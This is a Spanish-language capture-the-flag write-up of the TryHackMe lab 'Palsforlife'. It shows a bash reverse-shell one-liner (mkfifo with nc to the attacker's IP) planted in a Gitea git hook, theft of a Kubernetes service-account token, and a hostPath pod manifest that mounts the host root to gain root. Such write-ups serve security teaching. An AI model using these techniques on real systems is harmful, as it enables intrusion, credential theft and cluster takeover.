



| Link | Nivel | Creador |
|------|-------|---------|
| [Aquí](https://tryhackme.com/room/palsforlife)  | Medio  |  [ttauveron](https://tryhackme.com/p/ttauveron)  |

## Reconocimiento

¡Aloha! ¡Bienvenido a un nuevo write up!

¡Para esta fase de reconocimiento, usemos `nmap` para escanear los servicios de la máquina!

```bash
╰─ lanfran@parrot ❯ sudo nmap 10.10.24.160 -p- -sS --min-rate 5000 -n -Pn                                                          ─╯
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-26 19:23 CEST
Nmap scan report for 10.10.24.160
Host is up (0.076s latency).
Not shown: 65529 closed ports
PORT      STATE    SERVICE
22/tcp    open     ssh
6443/tcp  open     sun-sr-https
10250/tcp open     unknown
30180/tcp filtered unknown
31111/tcp open     unknown
31112/tcp open     unknown

Nmap done: 1 IP address (1 host up) scanned in 24.34 seconds

╰─ lanfran@parrot ❯ sudo nmap 10.10.24.160 -p 22,6443,10250,30180,31111,31112 -sV --min-rate 5000 -n -Pn                            ─╯
[sudo] password for lanfran: 
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-26 20:56 CEST
Nmap scan report for 10.10.24.160
Host is up (0.060s latency).

PORT      STATE SERVICE           VERSION
22/tcp    open  ssh               OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
6443/tcp  open  ssl/sun-sr-https?
10250/tcp open  ssl/http          Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
30180/tcp open  http              nginx 1.21.0
31111/tcp open  unknown
31112/tcp open  ssh               OpenSSH 7.5 (protocol 2.0)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 101.35 seconds
```
Después de ejecutar ambos escaneos en la máquina, tenemos algo como esto:


| Puerto |       Servicio        |
|--------|-----------------------|
|22      | SSH                   |
|6443    | Kubernetes API server |
|10250   | Kubelet API           |
|30180   | Nginx                 |
|31111   | Gitea(Pod)*           |
|31112   | SSH(Pod)*             |

_(\*) Determiné que estos puertos son de pods debido al rango de puertos de los pods predeterminados: 30000-32767. Referencia [aquí](https://kubernetes.io/docs/reference/ports-and-protocols/)._

Así que ahora enumeremos nuestro interesante servicio del puerto `30180` el servidor `Nginx`, que nos acaba de mostrar una página 401.

```bash
╰─ lanfran@parrot ❯ scan http://10.10.24.160:30180/                                                                                 ─╯
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.24.160:30180/
[+] Threads:        50
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/10/26 20:55:04 Starting gobuster
===============================================================
/team (Status: 301)
===============================================================
2021/10/26 20:55:10 Finished
===============================================================
```

¡Excelente! ¡Un nuevo directorio!

¡Veamos qué hay en él!

```bash
╰─ lanfran@parrot ❯ curl 10.10.24.160:30180/team/                                                                                                                   ─╯
<!DOCTYPE HTML>
<html lang="en">
<head>
<META charset="UTF-8">
<META name="viewport"
 content="width=device-width, initial-scale=1.0">
<title></title>
<style>
[...]
<body>
    <div class='center'>
      <p class="awesome">Alright chums, you can now push your stuff in! <br />
      My pals are waiting for me on Wow, we gotta do serious business, I see you tomorrow.<br />
      Times up, let's do this! <br />
      <iframe width="560" height="315" src="https://www.youtube.com/embed/ufeEAxz1AH8" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

      </p>
      <!-- I shouldn't forget this -->
      <div id="uninteresting_file.pdf" style="visibility: hidden; display: none;">JVBERi0xLjcKJb/3ov4KMSAwIG9iago8PCAvRGVzdHMgMyAwIFIgL0V4dGVuc2lvbnMgPDwgL0FE
QkUgPDwgL0Jhc2VWZXJzaW9uIC8xLjcgL0V4dGVuc2lvbkxldmVsIDggPj4gPj4gL1BhZ2VzIDQg
MCBSIC9UeXBlIC9DYXRhbG9nID4+CmVuZG9iagoyIDAgb2JqCjw8IC9DcmVhdGlvbkRhdGUgPDEw
[REDACTADO]
YWQwMGE5NjgxZWU3YWVkZWYxYTc4ZjQwMmQ2NTYxPjw4OGFkMDBhOTY4MWVlN2FlZGVmMWE3OGY0
MDJkNjU2MT5dIC9FbmNyeXB0IDEzIDAgUiA+PgpzdGFydHhyZWYKODY2NAolJUVPRgo=
</div>
    </div>

</body>
```

## Flag 1

Mmm un extraño `base64` escondido en un div con el nombre `uninteresting_file.pdf`. ¡Copiemos y decodifiquemos este `base64`!

```bash
╰─ lanfran@parrot ❯ cat encode.txt | base64 --decode > uninteresting_file.pdf                                                                                       ─╯

╰─ lanfran@parrot ❯ ls -la                                                                                                                                          ─╯
total 32
drwxr-xr-x 1 lanfran lanfran    86 Oct 26 19:48 .
drwxr-xr-x 1 lanfran lanfran   468 Oct 26 19:36 ..
-rw-r--r-- 1 lanfran lanfran 12311 Oct 26 19:47 encode.txt
-rw-r--r-- 1 lanfran lanfran  9113 Oct 26 19:48 uninteresting_file.pdf
```
¡Guau! En realidad, es un verdadero `pdf` pero está protegido con una contraseña, ¡usemos `john` para descifrarlo!

```bash
╰─ lanfran@parrot ❯ perl /usr/share/john/pdf2john.pl uninteresting_file.pdf > pdf.hash                                                                              ─╯

╰─ lanfran@parrot ❯ john pdf.hash --wordlist=/usr/share/wordlists/rockyou.txt                                                                                       ─╯
Using default input encoding: UTF-8
Loaded 1 password hash (PDF [MD5 SHA2 RC4/AES 32/64])
Cost 1 (revision) is 6 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
[REDACTADO]      (uninteresting_file.pdf)
1g 0:00:02:32 DONE (2021-10-26 19:51) 0.006544g/s 397.0p/s 397.0c/s 397.0C/s crazyk..bobby23
Use the "--show --format=PDF" options to display all of the cracked passwords reliably
Session completed
```
¡Excelente! ¡Y cuando usamos esta contraseña para abrir el pdf, encontramos algo similar a una contraseña! Dejémoslo para más tarde.

Entonces, continuemos con la enumeraración, ¡veamos qué esconde el servidor `gitea`!

Después de registrar una cuenta ficticia, encontramos un nuevo usuario: `leeroy`!

Entonces, ¿quizás la contraseña que encontramos en el pdf sea para este usuario? ¡Intentemos!



¡Sí! ¡Ahora podemos ver los repositorios de este usuario!

Si vas a la configuración del webhook del repositorio "jenkins", puedes ver un webhook, ¡que el `secreto` es en realidad nuestra segunda bandera!



## Flag 2

Dado que este usuario puede agregar `Git Hooks` a los repositorios, creé uno nuevo y usé un exploit similar a este, para una vieja máquina THM, llamada [Git And Crumpets](https://lanfran02.github.io/es/posts/gitandcrumpets/).

Aquí está el exploit que usamos:
```bash
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.9.6.53 1337 >/tmp/f
```


```bash
[Terminal 1]

╰─ lanfran@parrot ❯ touch crackme.md && git init && git add crackme.md && git commit -m "Exploiting" && git remote add origin http://10.10.24.160:31111/leeroy/vuln.git && git push -u origin master
hint: Using 'master' as the name for the initial branch. This default branch name
hint: is subject to change. To configure the initial branch name to use in all
hint: of your new repositories, which will suppress this warning, call:
hint: 
hint: 	git config --global init.defaultBranch <name>
hint: 
hint: Names commonly chosen instead of 'master' are 'main', 'trunk' and
hint: 'development'. The just-created branch can be renamed via this command:
hint: 
hint: 	git branch -m <name>
Initialized empty Git repository in /[...]/exploiting_git/.git/
[master (root-commit) b8dd8d4] Exploiting
 1 file changed, 0 insertions(+), 0 deletions(-)
 create mode 100644 crackme.md
Username for 'http://10.10.24.160:31111': leeroy
Password for 'http://leeroy@10.10.24.160:31111': 
Enumerating objects: 3, done.
Counting objects: 100% (3/3), done.
Writing objects: 100% (3/3), 214 bytes | 214.00 KiB/s, done.
Total 3 (delta 0), reused 0 (delta 0), pack-reused 0

----------------

[Terminal 2]

╰─ lanfran@parrot ❯ nc -nlvp 1337                                                                                                  ─╯
listening on [any] 1337 ...
connect to [10.9.6.53] from (UNKNOWN) [10.10.24.160] 37783
bash: cannot set terminal process group (15): Not a tty
bash: no job control in this shell
bash-4.4$ id
id
uid=1000(git) gid=1000(git) groups=1000(git),1000(git)
bash-4.4$ pwd
pwd
/data/git/repositories/leeroy/vuln.git
bash-4.4$ cd /root
bash-4.4$ ls -la
total 12
drwxrwxrwx    3 root     root          4096 May 31 22:01 .
drwxr-xr-x    1 root     root          4096 Oct 26 17:25 ..
drwxr-xr-x    2 root     root          4096 May 31 22:01 ..2021_05_31_22_01_32.228018415
lrwxrwxrwx    1 root     root            31 May 31 22:01 ..data -> ..2021_05_31_22_01_32.228018415
lrwxrwxrwx    1 root     root            16 May 31 22:01 flag2.txt -> ..data/flag2.txt
bash-4.4$ cat flag2.txt 
flag{[REDACTADO]}
```
Después de cargar la segunda bandera, utilicé la pista de la bandera 3. "`kubectl`".

¡Así que tal vez tengamos algunos secretos/tokens para usar con `kubectl` y podamos obtenerlos desde este pod!

¡Y si! ¡Tenemos un token guardado! ¡Guardémoslo en nuestra máquina local!
```bash
bash-4.4$ ls -la /var/run/secrets/kubernetes.io
total 8
drwxr-xr-x    3 root     root          4096 Oct 26 17:25 .
drwxr-xr-x    3 root     root          4096 Oct 26 17:25 ..
drwxrwxrwt    3 root     root           140 Oct 26 17:25 serviceaccount
bash-4.4$ cd /var/run/secrets/kubernetes.io/serviceaccount
bash-4.4$ ls -la
total 4
drwxrwxrwt    3 root     root           140 Oct 26 17:25 .
drwxr-xr-x    3 root     root          4096 Oct 26 17:25 ..
drwxr-xr-x    2 root     root           100 Oct 26 17:25 ..2021_10_26_17_25_23.066083395
lrwxrwxrwx    1 root     root            31 Oct 26 17:25 ..data -> ..2021_10_26_17_25_23.066083395
lrwxrwxrwx    1 root     root            13 Oct 26 17:25 ca.crt -> ..data/ca.crt
lrwxrwxrwx    1 root     root            16 Oct 26 17:25 namespace -> ..data/namespace
lrwxrwxrwx    1 root     root            12 Oct 26 17:25 token -> ..data/token
bash-4.4$ cat token
eyJhbGciOiJSUzI1NiIsIm[REDACTADO]BAx_djkHFv3vza54WS9w
```

## Flag 3

¡Y aquí viene la mejor parte de esta máquina! _"Abusar de un cluster de Kubernetes mal configurado"_.

¡Así que ab-usemos este cluster!

```bash
╰─ lanfran@parrot ❯ /tmp/kubectl --token "$(cat token.txt)" --insecure-skip-tls-verify --server=https://10.10.24.160:6443 auth can-i --list
Resources   Non-Resource URLs   Resource Names   Verbs
*.*         []                  []               [*]
            [*]                 []               [*]

╰─ lanfran@parrot ❯ /tmp/kubectl --token "$(cat token.txt)" --insecure-skip-tls-verify --server=https://10.10.24.160:6443 get namespaces
NAME              STATUS   AGE
default           Active   147d
kube-system       Active   147d
kube-public       Active   147d
kube-node-lease   Active   147d
```
Después de esta sencilla enumeración, conocemos todos los namespaces y ¡tenemos acceso a todos ellos!

¡Ahora obtengamos los sectres del `kube-system`, para peder leer la flag3!

```bash
╰─ lanfran@parrot ❯ /tmp/kubectl --token "$(cat token.txt)" --insecure-skip-tls-verify --server=https://10.10.24.160:6443 get secrets flag3 -o yaml -n kube-system
apiVersion: v1
data:
  flag3.txt: Zmx[REDACTADO]IX0=
kind: Secret
metadata:
  annotations:
    kubectl.kubernetes.io/last-applied-configuration: |
      {"apiVersion":"v1","kind":"Secret","metadata":{"annotations":{},"name":"flag3","namespace":"kube-system"},"stringData":{"flag3.txt":"flag{[REDACTADO]}"},"type":"Opaque"}
  creationTimestamp: "2021-05-31T22:01:30Z"
  name: flag3
  namespace: kube-system
  resourceVersion: "591"
  uid: 599c6a8b-2a93-4253-a02c-6c0a7eccdc3f
type: Opaque
```

## Root / Flag 4

Después de conseguir la bandera 3, intentemos terminar esta máquina, ¡llegando a "root"!

¡Primero obtengamos todos los pods y la información de ellos!

```bash
╰─ lanfran@parrot ❯ /tmp/kubectl --token "$(cat token.txt)" --insecure-skip-tls-verify --server=https://10.10.24.160:6443 get pods                                  ─╯
NAME                     READY   STATUS    RESTARTS   AGE
gitea-0                  1/1     Running   2          147d
nginx-7f459c6889-8slv2   1/1     Running   2          147d


╰─ lanfran@parrot ❯ /tmp/kubectl --token "$(cat token.txt)" --insecure-skip-tls-verify --server=https://10.10.24.160:6443 get pod nginx-7f459c6889-8slv2 -o yaml    ─╯
apiVersion: v1
kind: Pod
metadata:
  creationTimestamp: "2021-05-31T21:57:34Z"
  generateName: nginx-7f459c6889-
  labels:
    app: nginx
    pod-template-hash: 7f459c6889
  name: nginx-7f459c6889-8slv2
[...]
  containerStatuses:
  - containerID: containerd://0a3ab874a77bbbaf2767c915a76d202d9179f70d635e35c429d2806ca2fde4fa
    image: docker.io/library/nginx:latest
    imageID: docker.io/library/nginx@sha256:6d75c99af15565a301e48297fa2d121e15d80ad526f8369c526324f0f7ccb750
    lastState:
      terminated:
        containerID: containerd://11b48c2a2652638f80a7376f6c2ad107e4040f8348b301db5d24c80226d57665
[...]
```
¡Tenemos un contenedor de docker con una imagen de nginx en este pod! _¡Como supuse antes!_

Ahora, para llegar a root, carguemos y apliquemos una configuración maliciosa, que contiene un exploit para montar el directorio raíz "/" en nuestro nuevo directorio "pwned" y también podemos obtener una shell de root con esta configuración.

```bash
╰─ lanfran@parrot ❯ cat pwned.yaml                                                                                                  ─╯
apiVersion: v1
kind: Pod
metadata:
  name: pwned-pod
spec:
  containers:
  - image: docker.io/library/nginx@sha256:6d75c99af15565a301e48297fa2d121e15d80ad526f8369c526324f0f7ccb750
    name: pwned
    command: [ "/bin/bash", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
    volumeMounts:
    - mountPath: /pwned
      name: pwned
  volumes:
  - name: pwned
    hostPath:
      path: /
      type: Directory
```

```bash
╰─ lanfran@parrot ❯ /tmp/kubectl --token "$(cat token.txt)" --insecure-skip-tls-verify --server=https://10.10.24.160:6443 -n default apply -f pwned.yaml            ─╯
pod/pwned-pod created

╰─ lanfran@parrot ❯ /tmp/kubectl --token "$(cat token.txt)" --insecure-skip-tls-verify --server=https://10.10.24.160:6443 get pods  ─╯
NAME                     READY   STATUS    RESTARTS   AGE
nginx-7f459c6889-8slv2   1/1     Running   2          147d
gitea-0                  1/1     Running   2          147d
pwned-pod                1/1     Running   0          44s
```
¡Se creó nuestro nuevo pod, ahora solo queda conectarse al pod y obtener la bandera de root!

```bash
╰─ lanfran@parrot ❯ /tmp/kubectl --token "$(cat token.txt)" --insecure-skip-tls-verify --server=https://10.10.24.160:6443 -n default exec -it pwned-pod bash            ─╯
kubectl exec [POD] [COMMAND] is DEPRECATED and will be removed in a future version. Use kubectl exec [POD] -- [COMMAND] instead.

root@pwned-pod:/# id
uid=0(root) gid=0(root) groups=0(root)
root@pwned-pod:/# cat /pwned/root/root.txt
flag{[REDACTADO]}
```
¡Y hemos rooteado la máquina!

Eso es todo de mi parte, ¡espero que lo encuentre útil!